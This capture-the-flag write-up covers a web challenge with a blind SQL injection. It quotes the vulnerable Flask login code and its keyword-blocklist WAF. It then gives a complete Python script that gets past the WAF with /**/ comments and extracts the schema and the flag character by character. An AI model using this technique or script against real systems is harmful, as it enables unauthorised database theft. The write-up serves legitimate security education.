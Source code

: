 <font size='10'>prototype</font>

24<sup>th</sup> April 2025

Challenge Author(s): `Muhammad Saad Akhtar`

Category: `Web`

Difficulty: <font color='green'>Medium</font>

<br><br>

## Solution

We get a website as follows.

![alt text](image.png)

Looking at the source code, whatever we enter in the input box gets parsed in via `/login` endpoint.
```python
@app.route('/login', methods=['POST'])
def login():
    username = request.form.get('username', '')

    if waf(username):
        return "SECURITY ALERT! Not so fast..."

    query = f"SELECT * FROM users WHERE username = '{username}'"
    
    result = query_db(query)

    if result:
        return "Welcome!"
    else:
        return "YOU DON'T BELONG HERE!"
```

Here, we see our username first gets parsed into the `waf` function.

```python
def waf(query):
    query = query.lower()
    blocked_words = ['where', 'in', 'order', 'regexp', 'like', ' ', 'match', 'exec', 'union', 'glob', 'join', 'hex', 'blob', 'load']
    
    for word in blocked_words:
        if word in query:
            return True
    return False
```

Here we have a blacklist of words and if we enter any of these, we get an error saying `SECURITY ALERT`.

But if we don't have any of the blacklist words as our username, then it directly gets parsed in the SQL query.

```python
query = f"SELECT * FROM users WHERE username = '{username}'"
```

So we have a clear SQL injection with some blacklisted characters.

Also, even if we have a successful query result, we don't see anything returned from the db in the output so it is a blind SQL injection.

```python
if result:
        return "Welcome!"
else:
    return "YOU DON'T BELONG HERE!"
```

The flag is in the database so looking at the `init_db.py` file, we see:
```python
import sqlite3
import random

flag = "flag{fake_flag}"
flag_table = f"flag_table_{random.randbytes(5).hex()}"
flag_column = f"flag_column_{random.randbytes(5).hex()}"

conn = sqlite3.connect('users.db')
c = conn.cursor()

c.execute('''CREATE TABLE users (id INTEGER PRIMARY KEY, username TEXT, password TEXT)''')
c.execute("INSERT INTO users (username, password) VALUES ('guest', 'supersecret')")

c.execute('''CREATE TABLE products (id INTEGER PRIMARY KEY, name TEXT, price REAL)''')
c.execute("INSERT INTO products (name, price) VALUES ('Laptop', 999.99)")
c.execute("INSERT INTO products (name, price) VALUES ('Phone', 499.99)")

c.execute(f'''CREATE TABLE {flag_table} (id INTEGER PRIMARY KEY, {flag_column} TEXT)''')
c.execute(f"INSERT INTO {flag_table} ({flag_column}) VALUES ('{flag}')")

conn.commit()
conn.close()

print("Database initialized with users, products, and flag_table.")
```

The flag's table name and column name are also randomized so we need to get those as well.

To solve the challenge I wrote the following script. Also wrote some comments to know what going on.

```python
import requests
import string
import re

# Making a character set of all possible characters
chars = string.ascii_uppercase + string.ascii_lowercase + string.digits + "(),. {}_"
output = ""

# Replace it with your own URL
URL = "http://192.168.100.24:5000/login"

# Step 1 - Dump schema
def is_length_greater_than_schema(value):
    query = f"saad'/**/OR/**/(select/**/LENGTH((SELECT/**/sql/**/FROM/**/sqlite_master/**/LIMIT/**/1/**/OFFSET/**/2)))/**/>/**/{value}/**/--/**/-"
    payload = {"username": query}
    res = requests.post(URL, data=payload)
    return "Welcome!" in res.text

# Dumping the schema first to get the flag table name and column name
def dump_schema():
    global output
    low, high = 1, 200
    while low < high:
        mid = (low + high) // 2
        if is_length_greater_than_schema(mid):
            low = mid + 1
        else:
            high = mid
    length_of_output = low
    print(f"[+] Estimated length of SQL query: {length_of_output}")

    for i in range(1, length_of_output+1):
        for j in chars:
            query = f"saad'/**/OR/**/(select/**/substr((select/**/sql/**/from/**/sqlite_master/**/LIMIT/**/1/**/OFFSET/**/2),/**/{i},/**/1)/**/)/**/=/**/'{j}'/**/--/**/-"
            data = {"username": query}
            res = requests.post(URL, data=data)
            if "Welcome" in res.text:
                output += j
                print(output)
                break

    return output

# Step 2 - Dump flag
def is_length_greater_than_flag(table_name, column_name, value):
    query = f"saad'/**/OR/**/(SELECT/**/LENGTH((SELECT/**/{column_name}/**/FROM/**/{table_name}/**/LIMIT/**/1))/**/>/**/{value})/**/--"
    payload = {"username": query}
    res = requests.post(URL, data=payload)
    return "Welcome!" in res.text

def dump_flag(table_name, column_name):
    flag_output = ""
    low, high = 1, 200
    while low < high:
        mid = (low + high) // 2
        if is_length_greater_than_flag(table_name, column_name, mid):
            low = mid + 1
        else:
            high = mid
    length_of_flag = low
    print(f"[+] Estimated length of flag: {length_of_flag}")

    for i in range(1, length_of_flag+1):
        for j in chars:
            query = f"saad'/**/OR/**/(select/**/substr((select/**/{column_name}/**/from/**/{table_name}/**/LIMIT/**/1),/**/{i},/**/1)/**/)/**/=/**/'{j}'/**/--"
            data = {"username": query}
            res = requests.post(URL, data=data)
            if "Welcome" in res.text:
                flag_output += j
                print(flag_output)
                break

    return flag_output

if __name__ == "__main__":
    print("[*] Dumping schema...")
    schema = dump_schema()
    table_name, column_name = schema[11:32], schema[53:75]
    print("[*] Dumping flag...")
    flag = dump_flag(table_name, column_name)
    print(f"[+] Flag: {flag}")
 
```

![alt text](image-1.png)

### Challenge Flag

flag{b3ing_bl1nd_1s_t0ugh}